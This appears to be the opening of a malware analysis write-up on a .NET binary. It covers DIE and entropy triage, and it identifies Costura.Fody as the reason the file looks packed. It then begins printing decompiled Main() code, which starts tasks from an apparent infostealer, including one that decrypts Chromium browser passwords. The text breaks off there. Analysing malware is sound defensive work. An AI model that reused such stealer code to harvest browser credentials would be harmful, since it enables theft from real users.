 # Stage 1: Basic Overview

![image.png](image.png)

First, I dropped the file into **Detect It Easy (DIE)** to gather initial information about the binary.

The first observation: DIE suggested that the binary is **obfuscated and packed**. To validate this claim, I immediately checked the **entropy** levels for more clarity.

### Entropy Analysis:

![image.png](image%201.png)

- **Overall PE32 File Entropy**: 7.99810 → Marked as “packed (99%)”
- **Section-wise Entropy**:
    - **PE Header**: 2.76464 → Normal, not packed
    - **.text**: 7.99618 → Very high entropy, likely compressed or encrypted
    - **.rsrc**: 4.12568 → Normal for a resource section
    - **.reloc**: 0.10473 → Very low entropy, expected for relocation data

### Initial Conclusion:

At first glance, the binary appears **packed** due to the very high entropy, especially within the `.text` section. However, when I attempted to load it into **dnSpy**, the binary was **easily decompiled** without any unpacking or memory dumping.

This behavior suggested that the binary was **not truly packed or obfuscated** in a malicious sense.

Further digging revealed the likely cause: **Costura.Fody**.

Costura.Fody is a common .NET tool that embeds dependent DLLs directly into the executable. It compresses these embedded assemblies into the .text section, which naturally inflates the file's entropy.

As a result, the file appears "packed" to entropy-based detectors, but is fully functional and readable by the .NET runtime at execution.

# Stage 2: Main{}

```csharp
using System;
using System.Threading.Tasks;
using Browsers;
using Grabbers;
using Messengers;
using Senders;
using SystemInfo;

namespace Main
{
	// Token: 0x02000010 RID: 16
	internal class ExecutionCore
	{
		// Token: 0x06000025 RID: 37 RVA: 0x00003680 File Offset: 0x00001880
		private static void Main(string[] args)
		{
			Task task = Task.Run(delegate
			{
				Chromium.ChromiumPasswords.DecryptingBrowsersPasswords();
			});
			Task task2 = Task.Run(delegate
			{
```